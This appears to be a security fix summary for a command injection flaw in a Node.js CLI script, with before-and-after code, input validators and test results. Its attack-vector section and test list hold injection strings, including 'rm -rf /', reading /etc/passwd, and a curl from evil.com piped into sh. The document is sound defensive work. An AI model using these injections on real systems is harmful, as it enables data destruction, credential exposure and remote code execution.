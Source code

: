 # Security Fix Summary: Command Injection Vulnerability

## Vulnerability Details

**File:** `/home/flower/spec-kit-assistant/spec-assistant.js`
**Severity:** CRITICAL
**Type:** Command Injection (CWE-77)

### Vulnerable Code (Line 141)

```javascript
execSync(`~/.local/bin/uv tool run --from specify-cli specify ${allArgs.join(' ')}`, {
  stdio: 'inherit'
});
```

### Attack Vector

An attacker could inject shell commands through user input:

```bash
./run.sh init "myproject; rm -rf /"
./run.sh init "myproject && cat /etc/passwd"
./run.sh init "myproject | whoami"
./run.sh init "myproject\`curl evil.com/steal.sh | sh\`"
```

## Fix Implementation

### 1. Replaced `execSync` with `spawn()`

**Before:**
```javascript
execSync(`~/.local/bin/uv tool run --from specify-cli specify ${allArgs.join(' ')}`, {
  stdio: 'inherit'
});
```

**After:**
```javascript
const uvPath = join(process.env.HOME || '~', '.local', 'bin', 'uv');
const specProcess = spawn(uvPath, ['tool', 'run', '--from', 'specify-cli', 'specify', ...allArgs], {
  stdio: 'inherit',
  shell: false  // Explicitly disable shell to prevent injection
});
```

**Why this works:**
- `spawn()` with `shell: false` passes arguments directly to the binary
- Arguments are NOT interpreted by a shell
- No command substitution, piping, or chaining is possible

### 2. Added Input Validation

**validateInput() function:**
```javascript
function validateInput(input) {
  // Reject inputs with shell metacharacters
  const dangerousChars = /[;&|`$(){}[\]<>\\'"]/;
  if (dangerousChars.test(input)) {
    throw new Error(`Invalid input: contains shell metacharacters`);
  }
  return input;
}
```

**validateProjectName() function:**
```javascript
function validateProjectName(name) {
  // Only allow alphanumeric, hyphens, underscores, and dots
  const validPattern = /^[a-zA-Z0-9._-]+$/;
  if (!validPattern.test(name)) {
    throw new Error(`Invalid project name: must contain only letters, numbers, hyphens, underscores, and dots`);
  }
  return name;
}
```

### 3. Defense in Depth

The fix implements multiple layers of security:

1. **Input Validation**: Reject dangerous characters before processing
2. **spawn() vs execSync**: Use safe subprocess execution
3. **shell: false**: Explicitly disable shell interpretation
4. **Array Arguments**: Pass args as array, not concatenated string
5. **Error Handling**: Proper error messages for security violations

## Test Results

Created comprehensive test suite (`test-security-fix.js`) with 13 test cases:

### Valid Inputs (Should ALLOW)
- ✅ `my-project` - Valid project name with hyphens
- ✅ `myProject123` - Valid alphanumeric project name
- ✅ `my_project.v1` - Valid project name with underscore and dot

### Malicious Inputs (Should BLOCK)
- ✅ `project; rm -rf /` - Command injection with semicolon
- ✅ `project && cat /etc/passwd` - Command injection with AND
- ✅ `project | whoami` - Command injection with pipe
- ✅ `project\`whoami\`` - Command injection with backticks
- ✅ `project$(whoami)` - Command injection with command substitution
- ✅ `project' OR '1'='1` - SQL injection attempt
- ✅ `project > /tmp/evil` - File redirection attempt
- ✅ `project & background` - Background process attempt
- ✅ `project<script>` - XSS attempt
- ✅ `project\\nexecute` - Escape sequence attempt

**Result: 13/13 tests PASSED**

## Verification

```bash
# Run security tests
node test-security-fix.js

# Test normal functionality still works
node spec-assistant.js
node spec-assistant.js init my-valid-project

# Test malicious input is blocked
node spec-assistant.js init "project; rm -rf /"
# Expected: "❌ Security error: Invalid input: contains shell metacharacters"
```

## Impact Assessment

### Before Fix
- **Risk Level:** CRITICAL
- **Exploitability:** HIGH (trivial to exploit)
- **Impact:** Full system compromise possible
- **CVSS Score:** ~9.0 (Critical)

### After Fix
- **Risk Level:** LOW
- **Exploitability:** NONE (attacks are blocked)
- **Impact:** None (vulnerabilities mitigated)
- **CVSS Score:** 0.0 (No vulnerability)

## Recommendations

1. **Code Review:** Audit other files for similar `execSync` usage
2. **Security Testing:** Run regular security scans
3. **Input Validation:** Apply similar validation to all user inputs
4. **Dependencies:** Keep dependencies updated for security patches

## References

- CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')
- OWASP: Command Injection
- Node.js Security Best Practices: Avoid execSync with user input

---

**Fixed:** 2025-10-04
**Commit:** 3359ab5
**Tested:** All security tests passing (13/13)
